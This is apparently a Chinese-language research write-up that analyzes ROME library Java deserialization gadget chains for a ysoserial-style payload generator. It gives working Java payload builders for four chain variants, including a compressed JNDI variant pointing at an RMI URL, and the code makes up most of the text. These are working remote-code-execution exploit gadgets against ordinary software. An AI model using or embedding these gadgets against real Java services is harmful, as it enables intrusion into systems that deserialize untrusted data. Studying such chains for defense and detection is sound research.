 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO, Rome]
#slug: About Me
#title: About Me
---
```


# ROME

## 0x00 相关类介绍

### ObjectBean

`com.sun.syndication.feed.impl.ObjectBean` 是一个用于处理 Java Beans 的通用工具类，该类使用委托模式设计，使用了 `CloneableBean`、`EqualsBean` 和 `ToStringBean` 这三个辅助类，以实现相关方法。

![image-20231123091452951](attachments/image-20231123091452951.png)

而 `hashCode()` 方法会调用 `EqualsBean#beanHashCode()` 方法，并调用保存的 _obj 对象的 `toString()` 方法

![image-20231123091634612](attachments/image-20231123091634612.png)

### ToStringBean

这个类是对象转化为字符串表示的辅助类，这个类存在两个 `toString()` 方法，无参 `toString()` 将 `_obj` 对象名处理后传入另一个 `toString()` 方法中。

![image-20231123093142201](attachments/image-20231123093142201.png)

另一个方法反射调用所有 getter 方法。

![image-20231123093302131](attachments/image-20231123093302131.png)

## 0x01 ROME1

最终 ROME1 写成如下比较好理解的形式

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    ObjectBean delegate = new ObjectBean(Templates.class, templates);
    // 目的是通过 root 的 hashCode() 方法触发 ObjectBean 的 toString() 方法，先使用一个无害类
    ObjectBean root = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "Whoopsunix"));

    HashMap map = new HashMap();
    map.put(root, "Whoopsunix");
    Reflections.setFieldValue(root, "_equalsBean", new EqualsBean(ObjectBean.class, delegate));

    return map;
}
```

最终反序列化的 kick-off map 只需要放一个类，而在 ysoserial 用的 `Gadgets.makeMap()` 实现的，put 两次会执行两次。

## 0x02 ROME2

之前我们分析过 `BadAttributeValueExpException` 同样能触发 `toString()` ，因为 `ObjectBean` 的构造方法会对 `CloneableBean`、`EqualsBean` 和 `ToStringBean` 这三个辅助类都赋值，所以可以直接触发 `ObjectBean#toString()` 。

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    ObjectBean delegate = new ObjectBean(Templates.class, templates);
    BadAttributeValueExpException b = new BadAttributeValueExpException("");
    Reflections.setFieldValue(b, "val", delegate);
    return b;
}
```

## 0x03 ROME3

在实例化 ObjectBean 时，会将三个辅助类都实例化，生成的 payload 太长了，有 byte length: 2030

继续分析后可以进一步压缩，首先是可以直接删除 `ObjectBean.toString()` ，通过 `ToStringBean.toString()` 来调用，降到 byte length: 1570

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
    EqualsBean root = new EqualsBean(ToStringBean.class, toStringBean);

    return Gadgets.makeMap(root, root);
}
```

但我们的最终目的是通过 `pReadMethod.invoke()` 来调用 getter，实际上在 `EqualsBean#beanEquals()` 中也存在对于 getter 的调用，所以可以写出一条更短的新链路，## byte length: 1555

这个调用链的思路和 CC7 比较类似，一样是用到了 `equals()` 方法，比较类似就不赘述了，直接给出调用链。再次强调一下使用  `equlas()` 触发时对于 map 插入的先后顺序有要求，是用 (后插入Map的 value).equals(先插入的value) 

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    EqualsBean bean = new EqualsBean(String.class, "");

    Map map1 = new HashMap();
    map1.put("aa", templates);
    map1.put("bB", bean);

    Map map2 = new HashMap();
    map2.put("aa", bean);
    map2.put("bB", templates);

    Map map = new HashMap();
    map.put(map1, "x");
    map.put(map2, "x");

    Reflections.setFieldValue(bean, "_beanClass", Templates.class);
    Reflections.setFieldValue(bean, "_obj", templates);

    return map;
}
```

我们可以看到 ROME3 这条链子相比最初缩短方案中用 ToStringBean 替换 ObjectBean 的方案并没有短很多，而且会触发报错，所以将最开始的方案保留为 ROME4

![image-20231124094353467](attachments/image-20231124094353467.png)

### Gadget Chain

```
HashMap.readObject()
    AbstractMap.equals()
        EqualsBean.equals()
            EqualsBean.beanEquals()
            		TemplatesImpl.getOutputProperties()
```

## 0x04 ROME4

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command, payloadOptions);

    ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
    EqualsBean root = new EqualsBean(ToStringBean.class, toStringBean);

    return Gadgets.makeMap(root, root);
}
```

如果使用 JNDI 还可以进一步压缩到 byte length: 1499 ！！！，少于 1500 了

```java
public Object getObject(String command, HashMap payloadOptions) throws Exception {
    // 进一步压缩
    String url = "rmi://127.0.0.1:1099/umaghq";
    JdbcRowSetImpl rs = new JdbcRowSetImpl();
    rs.setDataSourceName(url);
    rs.setMatchColumn("x");
    Field listeners = javax.sql.rowset.BaseRowSet.class.getDeclaredField("listeners");
    listeners.setAccessible(true);
    listeners.set(rs, null);

    ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
    EqualsBean root = new EqualsBean(ToStringBean.class, item);

    return Gadgets.makeMap(root, root);
}
```

